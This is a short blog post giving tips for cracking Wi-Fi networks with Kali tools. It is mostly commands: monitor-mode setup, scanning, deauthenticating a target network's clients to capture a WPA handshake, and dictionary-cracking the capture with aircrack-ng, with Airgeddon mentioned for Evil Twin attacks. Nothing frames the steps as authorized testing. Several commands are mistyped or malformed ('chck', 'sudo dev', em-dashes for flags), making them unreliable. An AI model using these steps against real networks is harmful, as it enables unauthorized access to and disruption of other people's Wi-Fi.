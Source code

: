 ```yaml
---
layout: post
title:  "Cracking Wi-Fi Network"
summary: 'Tips to use Airgeddon and other Kali tools'

author: gabro
date: '2024-08-12 1:35:23 +0530'
category: ['cracking']
tags: cracking
thumbnail: /assets/img/posts/Cracking Wi-Fi Network/kali.png
keywords: cracking, kali linux, airgeddon, wifi
permalink: /blog/kali-tips/
---
```


## Set Philippine channel
```
sudo iw reg set PH
```
this is needed so we have access to more channels 

## See interfaces to use
```
iw dev
iwconfig
```

## Set interface in monitor mode
```
sudo iwconfig wlan0 mode monitor 
```

## Test the interface
```
sudo aireplay-ng --test wlan0
```

## Soft reset of the interface
```
sudo airmon-ng chck kill
sudo ip link set wlan0 down
sudo dev wlan0 set type monitor
```

### Scan Wi-Fi networks
```
sudo airodump-ng wlan0
```
or
```
sudo airodump-ng —band abg wlan0
```

# Airgeddon 👨🏻‍💻
A powerful tool for Kali, useful for obtaining handshakes and performing Evil Twin attacks. It’s worth noting that for capturing handshakes, it can be helpful to perform the following steps in another terminal while listening to connected devices, that is, during the handshake acquisition phase.

* Identification of devices connected to a network
```
sudo airodump-ng —bssid <target_mac> —channel <id> wlan0
```

* Deauthentication of the found client
```
sudo aireplay-ng —deauth 10 -a <Target MacAddress> -c <Target Device MAC> wlan0
```
This procedure can be done for each client connected to the network to increase the chances of capturing a handshake.

## Aircrack-ng 👨🏻‍💻
Another powerful tool included within Airgeddon but that can also be used separately is Aircrack-ng. For example, it can be used to crack the .cap file with a dictionary. However, it is not very efficient and is somewhat less customizable, so Hashcat is often a better choice.
```
sudo aircrack-ng dict.txt handshake.cap
```

